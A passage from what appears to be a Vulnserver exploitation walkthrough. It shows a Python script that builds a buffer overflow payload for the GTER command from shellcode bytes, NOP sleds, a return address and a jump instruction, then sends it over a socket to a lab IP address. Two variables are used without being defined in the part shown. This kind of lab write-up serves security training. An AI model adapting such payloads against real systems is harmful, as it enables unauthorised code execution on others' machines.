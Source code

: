 ```c
flag_value=b""
flag_value+=b"\x31\xc0"
flag_value+=b"\x50"

buffer_size=b""
buffer_size+=b"\x80\xc4\x04"
buffer_size+=b"\x50"

payload=b""
payload+=b"\x90"*40
payload+=file_descriptor
payload+=stack_adjustment
payload+=flag_value
payload+=buffer_size
payload+=b"\x90"*(100-len(payload))
payload+=b"\xcc"
payload+=b"\x90"*50
payload+=b"\xaf\x11\x50\x62"
payload+=b"\x90"
payload+=b"\x83\xc0\x10"
payload+=b"\xff\xe0"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GTER "+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ python3 buffer-size.py
```

After running this script, we can see our buffer size ```0x400``` and flag value ```0x0``` stored in stack

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter2-buffsize-1.png">
</div>
